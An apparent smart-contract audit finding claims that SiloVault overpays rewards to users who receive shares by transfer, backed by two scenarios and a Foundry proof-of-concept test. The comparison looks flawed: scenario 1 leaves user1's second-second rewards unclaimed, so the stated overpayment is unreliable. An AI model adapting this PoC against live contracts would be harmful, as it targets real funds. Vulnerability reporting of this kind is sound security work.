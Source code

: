 # Title *
user can gain excessive rewards by transferring shares instead of depositing assets

# Links to affected code *


# Vulnerability details *
## Finding description and impact
In `SiloVault`, users typically receive rewards based on the amount of assets they deposit. However, since `SiloVault` inherits from `ERC4626`, it supports transferring shares directly via `transfer`. A user can receive shares from another user through a transfer, and still accumulate rewards — even though they didn’t actually deposit any assets themselves.

This can lead to users who receive shares via transfer earning more rewards than they should. That’s because the protocol treats transferred shares the same as deposited ones when calculating rewards — even though no new assets were actually added. This creates an unfair advantage and leads to the protocol overpaying rewards. Users can game the system by reusing existing assets without adding new ones, which not only wastes incentives but also makes the asset pool less healthy over time.

## Proof of Concept
Here’s a comparison of two cases:

Scenario 1: Normal deposit flow
- User1 deposits 1 unit of asset
- After 1 second, User1 gets 3 units of reward
- User2 deposits 1 unit of asset
- After 1 second, User2 gets 1 unit of reward
- **Total deposited assets: 2, total accumulated staking time: 2 seconds, total rewards distributed: 4**


Scenario 2: Transfer abuse
- User1 deposits 1 unit of asset
- After 1 second, User1 gets 3 units of reward
- User1 transfers their shares to User2 (User2 didn’t deposit anything)
- After another second, User2 gets 3 units of reward
- **Total deposited assets: 1, total accumulated staking time: 2 seconds, total rewards distributed: 6**

This shows that transferring shares causes the system to miscalculate rewards — users put in fewer actual assets, yet still earn more tokens over the same amount of time.

Write the `PoC` contract below to `VaultsSiloIncentivesTest` contract in `test/foundry/incentives/VaultsSiloIncentives.i.sol`, It includes two test cases representing the scenarios described above. Run the test with command `FOUNDRY_PROFILE=vaults-with-tests forge test --mc PoC --ffi  -v`.

```solidity
contract PoC is IntegrationTest {

    MintableToken reward1 = new MintableToken(18);

    SiloIncentivesController vaultIncentivesController;
    IVaultIncentivesModule vaultIncentivesModule;

    uint256 rewardsPerSec = 3;
    uint256 depositAmount = 1;

    address user1;
    address user2;

    uint256 user1_reward;
    uint256 user2_reward;

    function setUp() public override {
        super.setUp();

        vaultIncentivesModule = vault.INCENTIVES_MODULE();
        assertTrue(address(vaultIncentivesModule) != address(0), "empty vaultIncentivesModule");

        _setCap(allMarkets[0], CAP);
        _setCap(allMarkets[1], CAP);
        _setCap(allMarkets[2], CAP);

        reward1.setOnDemand(true);

        vaultIncentivesController = new SiloIncentivesController(address(this), address(vault));

        // standard program for vault users
        vaultIncentivesController.createIncentivesProgram(
            DistributionTypes.IncentivesProgramCreationInput({
                name: "x",
                rewardToken: address(reward1),
                emissionPerSecond: uint104(rewardsPerSec),
                distributionEnd: uint40(block.timestamp + 10)
            })
        );
        vm.prank(OWNER);
        vaultIncentivesModule.addNotificationReceiver(INotificationReceiver(address(vaultIncentivesController)));

        user1 = makeAddr("user1");
        user2 = makeAddr("user2");
    }

    // Scenario 1: Normal deposit flow
    function test_vaults_incentives_deposit() public {
        // user1 deposit 1
        vm.prank(user1);
        vault.deposit(1, user1);

        // wait 1s
        vm.warp(block.timestamp + 1);

        // user1 claim
        vm.prank(user1);
        vaultIncentivesController.claimRewards(user1);
        user1_reward = reward1.balanceOf(user1);
        assertEq(user1_reward, 3);

        // user2 deposit 1
        vm.prank(user2);
        vault.deposit(1, user2);

        // wait 1s
        vm.warp(block.timestamp + 1);

        // user2 claim
        vm.prank(user2);
        vaultIncentivesController.claimRewards(user2);
        user2_reward = reward1.balanceOf(user2);
        assertEq(user2_reward, 1);

        // total = user1_reward + user2_reward = 4
        assertEq(user1_reward + user2_reward, 4);
    }

    // Scenario 2: Transfer abuse
    function test_vaults_incentives_transfer() public {
        // user1 deposit 1
        vm.prank(user1);
        vault.deposit(1, user1);

        // wait 1s
        vm.warp(block.timestamp + 1);

        // user1 claim
        vm.prank(user1);
        vaultIncentivesController.claimRewards(user1);
        user1_reward = reward1.balanceOf(user1);
        assertEq(user1_reward, 3);

        uint256 user1_shares = vault.balanceOf(user1);

        // user1 transfer shares to user2
        vm.prank(user1);
        vault.transfer(user2, user1_shares);

        // wait 1s
        vm.warp(block.timestamp + 1);

        // user2 claim
        vm.prank(user2);
        vaultIncentivesController.claimRewards(user2);
        user2_reward = reward1.balanceOf(user2);
        assertEq(user2_reward, 3);

        // total  = user1_reward + user2_reward = 6
        assertEq(user1_reward + user2_reward , 6);
    }
}
```

## Recommended mitigation steps
Consider adding a mechanism to distinguish between deposited and transferred shares, limiting rewards to actual deposits, or disabling `transfer` and `transferFrom` altogether.